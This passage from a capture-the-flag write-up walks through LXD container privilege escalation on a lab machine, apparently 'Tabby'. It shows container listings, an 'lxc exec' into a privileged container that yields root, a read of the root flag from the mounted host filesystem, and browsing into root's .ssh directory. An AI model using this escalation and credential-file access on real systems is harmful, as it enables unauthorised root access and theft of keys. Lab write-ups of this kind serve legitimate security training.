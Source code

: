 ```text
| mycontainer | RUNNING | 10.84.102.49 (eth0)  | fd42:cd51:1c76:426c:216:3eff:fe4b:a949 (eth0) | CONTAINER | 0         |
+-------------+---------+----------------------+-----------------------------------------------+-----------+-----------+
| privesc     | RUNNING | 10.84.102.194 (eth0) | fd42:cd51:1c76:426c:216:3eff:fe93:7f92 (eth0) | CONTAINER | 0         |
+-------------+---------+----------------------+-----------------------------------------------+-----------+-----------+
ash@tabby:/dev/shm$ lxc image ls
+-------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| ALIAS | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+-------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| s     | e69ffcf64dfc | no     | alpine v3.12 (20201012_22:05) | x86_64       | CONTAINER | 3.05MB | Oct 12, 2020 at 9:37pm (UTC) |
+-------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
```

apparently I was not the only one working one this particular machine...

### Root.txt

[https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

```text
ash@tabby:/dev/shm$ lxc exec privesc ash
~ # id
uid=0(root) gid=0(root)
~ # ls
~ # cd ..
/ # ls
bin    etc    lib    mnt    proc   run    srv    tmp    var
dev    home   media  opt    root   sbin   sys    usr
/ # cd root
~ # ls
~ # ssh root@10.10.10.194
ash: ssh: not found
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt  snap
/mnt/root/root # cat root.txt 
2d8c7388853dadce25e4605460167ab1
```

Even though I had the root flag, I was not convinced that I had actually owned the machine,

```text
/mnt/root/root # ls -la
total 40
drwx------    6 root     root          4096 Jun 16 13:59 .
drwxr-xr-x   20 root     root          4096 May 19 10:28 ..
lrwxrwxrwx    1 root     root             9 May 21 20:30 .bash_history -> /dev/null
-rw-r--r--    1 root     root          3106 Dec  5  2019 .bashrc
drwx------    2 root     root          4096 May 19 22:23 .cache
drwxr-xr-x    3 root     root          4096 May 19 11:50 .local
-rw-r--r--    1 root     root           161 Dec  5  2019 .profile
-rw-r--r--    1 root     root            66 May 21 13:46 .selected_editor
drwx------    2 root     root          4096 Jun 16 14:00 .ssh
-rw-r--r--    1 root     root            33 Oct 12 20:59 root.txt
drwxr-xr-x    3 root     root          4096 May 19 10:41 snap
/mnt/root/root # cd .ssh
/mnt/root/root/.ssh # ls
```